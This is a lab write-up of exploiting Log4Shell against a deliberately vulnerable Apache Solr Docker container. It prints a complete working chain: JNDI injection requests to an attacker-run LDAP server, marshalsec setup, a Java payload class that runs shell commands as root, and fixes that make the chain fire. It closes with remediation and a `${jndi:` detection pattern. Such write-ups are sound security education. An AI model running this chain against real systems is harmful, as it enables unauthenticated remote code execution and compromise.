


# Log4Shell (CVE-2021-44228) — Apache Solr Remote Code Execution


> Full unauthenticated remote code execution achieved against a deliberately vulnerable Apache Solr
> instance, by chaining a JNDI injection through a self-hosted rogue LDAP server into arbitrary
> code execution — end to end, with no pre-built exploit scripts.

---

## Overview

| | |
|---|---|
| **CVE** | [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228) (Log4Shell) |
| **Target** | Apache Solr 8.11.0, bundled log4j-core 2.14.1 |
| **Environment** | Vulhub `cve-2021-44228-solr-1`, isolated Docker container |
| **Vulnerability class** | Unauthenticated JNDI Injection → Remote Code Execution |
| **CVSS v3.1** | 10.0 (Critical) |
| **Outcome** | Arbitrary code execution as root, confirmed via marker file |

## Table of Contents
- [Attack Chain Summary](#attack-chain-summary)
- [Step 1 — Target Recon](#step-1--target-recon)
- [Step 2 — Environment & Network Prep](#step-2--environment--network-prep)
- [Step 3 — Injection Point Confirmation](#step-3--injection-point-confirmation)
- [Step 4 — Building the Exploit Chain](#step-4--building-the-exploit-chain)
- [Step 5 — Triggering RCE](#step-5--triggering-rce)
- [Debugging Notes: Two Real Bugs Hit Along the Way](#debugging-notes-two-real-bugs-hit-along-the-way)
- [Full Command Reference](#full-command-reference)
- [Impact](#impact)
- [Remediation](#remediation)

---

## Attack Chain Summary

```
Attacker                    Solr (victim)              LDAP Server              HTTP Server
   |                             |                          |                         |
   |--- HTTP req w/ ${jndi:} --->|                          |                         |
   |                             |--- JNDI lookup --------->|                         |
   |                             |<-- redirect to class ----|                         |
   |                             |--- fetch Exploit.class ------------------------->  |
   |                             |<-- class bytes ---------------------------------  |
   |                             |--- load & execute class (static initializer) ---  |
   |                             |     => shell command runs as root inside Solr     |
```

---

## Step 1 — Target Recon

Confirmed the vulnerable container was running and identified the bundled log4j version.

```bash
docker ps
```


```bash
docker exec cve-2021-44228-solr-1 find / -name 'log4j-core-*.jar' 2>/dev/null
```


**Result:**
```
/opt/solr/server/lib/ext/log4j-core-2.14.1.jar
/opt/solr/contrib/prometheus-exporter/lib/log4j-core-2.14.1.jar
```
Squarely within the vulnerable range (2.0-beta9 → 2.14.1).

Also checked the running JVM process for the official mitigation flag:

```bash
docker exec cve-2021-44228-solr-1 ps aux | grep java
```

`-Dlog4j2.formatMsgNoLookups=true` was **absent** from the process args — JNDI lookups were not
disabled, confirming the target was exploitable.

---

## Step 2 — Environment & Network Prep

Before touching the exploit, verified blast radius and mapped the network:

```bash
docker inspect cve-2021-44228-solr-1 --format '{{json .Mounts}}'
# []
```
No host filesystem mounts — anything executed inside the container stays contained to the container.

```bash
docker network inspect cve-2021-44228_default --format '{{range .IPAM.Config}}{{.Gateway}}{{end}}'
# 172.18.0.1
```
Identified the Docker bridge gateway IP. `127.0.0.1` inside the container refers to the container
itself, not the host — the gateway IP is required for the container to call back out to a listener
on the host.

---

## Step 3 — Injection Point Confirmation

Sent a JNDI payload at Solr's admin API with a plain `nc` listener on the host, to confirm the
vulnerability actually fires before building the full chain.

```bash
curl -v 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://172.18.0.1:1389/a}' 2>&1 | grep -i "GET /"
```


Output showed `$jndi:ldap://...` with the braces missing — a tooling bug, detailed below.

After the fix:
```bash
curl -g -v 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://172.18.0.1:1389/a}' 2>&1 | grep -i "GET /"
```


With the intact payload, the `nc` listener received a connection from the container — confirming
log4j parsed the string and attempted the JNDI lookup. Injection point live.

---

## Step 4 — Building the Exploit Chain

| Component | Role |
|---|---|
| `poc/Exploit.java` | Payload class — static initializer runs a shell command on load |
| `marshalsec` `LDAPRefServer` | Rogue LDAP server; redirects any lookup to a remote class |
| Python `http.server` | Serves the compiled `.class` file over HTTP |

**Payload class:**
```java
public class Exploit {
    static {
        try {
            Runtime.getRuntime().exec(new String[]{"/bin/sh", "-c",
                "touch /tmp/pwned_by_log4shell && echo 'RCE CONFIRMED' > /tmp/pwned_by_log4shell"});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public Exploit() {}
}
```

---

## Step 5 — Triggering RCE

Three components running in parallel, then the trigger fired:

```bash
curl -g -s 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://172.18.0.1:1389/Exploit}'
```

**marshalsec caught the lookup and issued the redirect:**

```
Send LDAP reference result for Exploit redirecting to http://172.18.0.1:8000/Exploit.class
```

**The container fetched the malicious class over HTTP:**

```
172.18.0.2 - - [...] "GET /Exploit.class HTTP/1.1" 200 -
```

**Verification — code executed inside the container:**
```bash
docker exec -it cve-2021-44228-solr-1 cat /tmp/pwned_by_log4shell
```


**Result: `RCE CONFIRMED`** — arbitrary code execution achieved as root, inside the Solr container.

---

## Debugging Notes: Two Real Bugs Hit Along the Way

### Bug #1 — curl URL globbing silently strips the payload
Initial requests sent `$jndi:ldap://...` instead of `${jndi:ldap://...}` — curl treats `{...}` in
URLs as its own globbing/range syntax (e.g. `{a,b,c}` fetches multiple variants) and silently
stripped the braces before the request left the machine. This was investigated and ruled out as a
shell-escaping issue and a Docker-networking issue before the actual cause was found.

**Fix:** `-g` / `--globoff` disables curl's URL globbing entirely.

### Bug #2 — Java bytecode version mismatch
The chain reached the LDAP server and successfully fetched the class bytes over HTTP (verified via
a direct `curl` from inside the container returning `200 OK` with the class bytes) — yet the marker
file never appeared. Root cause: the container's JVM was Java 8 (`1.8.0_102`), while the host's
`javac` was version 21. The compiled class's bytecode version exceeded what the container's JVM
could load, so the class load — and its static initializer — failed silently inside log4j's
internal exception handling.

**Fix:** `javac --release 8 Exploit.java` to target compatible bytecode.

---

## Full Command Reference

```bash
# --- Recon ---
docker ps
docker exec cve-2021-44228-solr-1 find / -name 'log4j-core-*.jar' 2>/dev/null
docker exec cve-2021-44228-solr-1 ps aux | grep java
docker inspect cve-2021-44228-solr-1 --format '{{json .Mounts}}'
docker network inspect cve-2021-44228_default --format '{{range .IPAM.Config}}{{.Gateway}}{{end}}'

# --- Injection point confirmation (broken, then fixed) ---
curl -v 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://172.18.0.1:1389/a}' 2>&1 | grep -i "GET /"
curl -g -v 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://172.18.0.1:1389/a}' 2>&1 | grep -i "GET /"

# --- Exploit build ---
git clone https://github.com/mbechler/marshalsec.git
cd marshalsec && mvn clean package -DskipTests
cd ../poc && javac --release 8 Exploit.java

# --- Exploit chain (3 terminals) ---
# Terminal 1
python3 -m http.server 8000

# Terminal 2
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://172.18.0.1:8000/#Exploit" 1389

# Terminal 3
curl -g -s 'http://localhost:8983/solr/admin/cores?action=${jndi:ldap://172.18.0.1:1389/Exploit}'

# --- Verification ---
docker exec -it cve-2021-44228-solr-1 cat /tmp/pwned_by_log4shell
```

---

## Impact

Unauthenticated remote code execution, achievable with a single crafted HTTP request, running as
**root** in the context of the Solr process. In a real deployment this would allow full compromise
of the host application, lateral movement, data exfiltration, or ransomware deployment — one of the
reasons Log4Shell carries a CVSS score of 10.0.

## Remediation

- Upgrade log4j-core to **2.17.1+** (2.15 fixed the core JNDI issue; 2.16/2.17.x addressed follow-on
  bypasses and a separate DoS issue).
- If upgrade isn't immediately possible:
  - Set `-Dlog4j2.formatMsgNoLookups=true` (or `LOG4J_FORMAT_MSG_NO_LOOKUPS=true` for 2.10–2.14.1).
  - Strip the vulnerable class from the jar:
    ```bash
    zip -q -d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
    ```
- Restrict egress from application servers so a successful JNDI lookup cannot reach an external
  LDAP/RMI server.
- Monitor logs/WAF for `${jndi:` patterns in any user-controllable input (headers, query params,
  form fields, User-Agent strings).
- Maintain an SBOM to track transitive dependencies like log4j going forward.

---

**Disclaimer:** This exercise was performed entirely against a self-hosted, deliberately vulnerable
Docker container (Vulhub) on an isolated local network, for educational and portfolio purposes. No
production systems, third-party infrastructure, or external targets were involved.
